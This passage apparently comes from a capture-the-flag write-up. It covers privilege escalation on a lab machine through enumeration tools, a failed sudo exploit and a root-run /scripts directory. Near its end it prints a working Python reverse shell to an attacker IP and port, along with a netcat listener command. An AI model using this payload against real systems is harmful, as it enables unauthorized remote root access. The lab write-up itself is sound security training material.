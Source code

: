While ``test.txt`` is owned by root and cannot be read by ``scriptmanager``, the python file ``test.py`` can be read and modified. ``test.py`` opens ``test.txt`` for writing, writes one line, then closes it again. This is too suspicious.

**LinEnum** did not reveal anything groundbreaking. It pointed out the non-standard directory ``/scripts`` that I had already seen from earlier. However, this is a pretty good hint that it might be the right thing to investigate in more detail.

**linpeas** pointed out that the sudo version may be vulnerable. ``sudo --version`` revealed that the target box is using sudo 1.8.16. Perhaps searchsploit will have some goodies:

```bash
searchsploit sudo
```

Indeed there is something that looks applicable:

![searchsploit sudo](searchsploit%20sudo.png)

This exploit is located at ``/usr/share/exploitdb/exploits/linux/local/51217.sh``. On my attacker box, I copied the exploit over to the webserver I use for transferring my toolbox, then from the target box downloaded it into ``/home/scriptmanager`` and tried running it:

![51217 failure](51217%20failure.png)

No dice 🎲  Unfortunately the exploit did not work. I didn't investigate why.

**pspy** showed something very interesting though. Definitely a PE vector. It showed that scripts from that suspicious ``/scripts`` directory are being executed by root, once per minute!

![pspy](pspy.png)

It looks like root will run any python script inside ``/scripts``! That's wonderful. While it would be possible to simply write a python script to read the root flag and write it to an accessible location, it's just as easy (and so much more gratifying) to pop a root shell.

Following the same process as before, let's create a reverse shell as a python script inside ``/scripts``:

First, on the attacker box, make a new firewall rule to allow the root reverse shell from this target:

```bash
sudo ufw allow from 10.10.10.68 to any port 1337 proto tcp
```

Also on the attacker box, set up a netcat listener:

```bash
bash
nc -lvnp 1337
```

Then save the same python reverse shell into a new python script ``/scripts/revshell.py``:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.10",1337));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
